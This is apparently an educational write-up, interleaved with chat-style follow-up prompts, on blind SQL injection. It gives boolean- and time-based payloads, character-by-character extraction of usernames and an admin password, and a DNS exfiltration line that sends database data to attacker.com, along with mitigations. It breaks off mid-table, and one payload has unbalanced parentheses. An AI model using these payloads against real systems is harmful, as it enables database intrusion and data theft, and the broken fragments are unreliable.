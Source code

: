 

# Inferential SQL Injection (Blind SQLi)

Inferential SQL Injection, also known as Blind SQLi, is a type of attack where the attacker can't see the direct results of their injection but can infer information by observing the application's behavior.

## Key Characteristics

1. **No direct output**: Unlike classic SQLi, there's no visible database output
2. **Boolean-based**: Inference through true/false responses
3. **Time-based**: Inference through response delays

## Common Attack Techniques

### Boolean-Based Blind SQLi
```sql
' AND 1=1 -- 
' AND 1=2 -- 
```

### Time-Based Blind SQLi
```sql
'; IF (1=1) WAITFOR DELAY '0:0:5' -- 
'; IF (1=2) WAITFOR DELAY '0:0:5' -- 
```

## Detection Methods

1. Observe differences in responses to true/false conditions
2. Measure response times for time-based payloads
3. Look for changes in HTTP status codes or error messages

## Exploitation Process

1. Identify injectable parameters
2. Determine backend database type
3. Craft conditional queries to extract data bit by bit:
continue from exploitation process point number 3


## Exploitation Process (continued)

3. **Craft conditional queries to extract data bit by bit**:
   - For Boolean-based: Use logical conditions to infer data character by character
     ```sql
     ' AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1) = 'a' -- 
     ```
   - For Time-based: Use delays to confirm character matches
     ```sql
     '; IF (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1) = 'a') WAITFOR DELAY '0:0:5' -- 
     ```

4. **Systematically extract information**:
   - Database version
   - Table names
   - Column names
   - Actual data records

5. **Automate the process**:
   - Use tools like SQLmap for efficient exploitation
   - Script custom attacks for specific scenarios

## Example Boolean-Based Attack Pattern

```sql
' AND (SELECT ASCII(SUBSTRING((SELECT TOP 1 table_name FROM information_schema.tables),1,1))) > 100 -- 
```

## Example Time-Based Attack Pattern

```sql
'; IF (SELECT ASCII(SUBSTRING((SELECT TOP 1 table_name FROM information_schema.tables),1,1))) > 100 WAITFOR DELAY '0:0:5' -- 
```

## Mitigation Strategies

1. **Use prepared statements with parameterized queries**
2. **Implement proper input validation**
3. **Apply principle of least privilege for database accounts**
4. **Configure proper error handling** (don't reveal database errors)
5. **Use Web Application Firewalls (WAFs)** to detect and block injection attempts

## Advanced Techniques

- Combine Boolean and Time-based approaches for reliability
- Use bit-shifting techniques for faster data extraction
- Exploit DNS exfiltration in restricted environments:
  ```sql
  '; DECLARE @data VARCHAR(1024); SELECT @data = (SELECT TOP 1 username FROM users); EXEC('master..xp_dirtree "\\'+@data+'.attacker.com\share"') -- 
```
Remember that Blind SQLi attacks can be time-consuming but are often successful against vulnerable applications that don't properly sanitize input.

Explain TIme based and Boolean Based more thorougly

 # Inferential SQL Injection (Blind SQLi): Time-Based and Boolean-Based

## Time-Based Blind SQL Injection

Time-based blind SQL injection is a technique where the attacker infers information by observing timing differences in the database responses.

### How it works:
1. The attacker injects SQL commands that cause the database to pause for a specified time if a condition is true
2. The application's response time indicates whether the condition was true or false
3. By measuring response times, the attacker can extract data bit by bit

### Example:
```sql
SELECT * FROM users WHERE username = 'admin' AND IF(1=1,SLEEP(5),0)--
```
- If the condition (1=1) is true, the database sleeps for 5 seconds before responding
- If false, it responds immediately

### Characteristics:
- Relies on database functions like `SLEEP()`, `WAITFOR DELAY`, or heavy queries
- Works even when no visible output differences exist
- Very slow but reliable method
- Often used when other blind techniques fail

## Boolean-Based Blind SQL Injection

Boolean-based blind SQL injection relies on observing differences in application behavior based on true/false conditions in injected queries.

### How it works:
1. The attacker crafts queries that return different responses based on boolean conditions
2. The application's behavior (error messages, content changes, HTTP status codes) reveals whether the condition was true or false
3. By systematically testing conditions, the attacker can reconstruct data

### Example:
```sql
SELECT * FROM products WHERE id = 1 AND SUBSTRING((SELECT password FROM users WHERE username = 'admin'), 1, 1) = 'a'
```
- If the first character of admin's password is 'a', the query returns product details
- If not, it might return an empty result or error page

### Characteristics:
- Faster than time-based but requires observable differences in responses
- Often uses string comparison functions (SUBSTRING, LIKE)
- Relies on inference from subtle application behavior changes
- Commonly used when errors are suppressed but application behavior differs

## Key Differences:

| Aspect            | Time-Based                          | Boolean-Based                     |
|-------------------|-------------------------------------|------------------------------------|
| Detection Method  | Measures response time              | Observes behavioral differences    |
| Speed             | Very slow                           | Relatively faster                  |
| Reliability       | High (timing is unambiguous
complete the reliab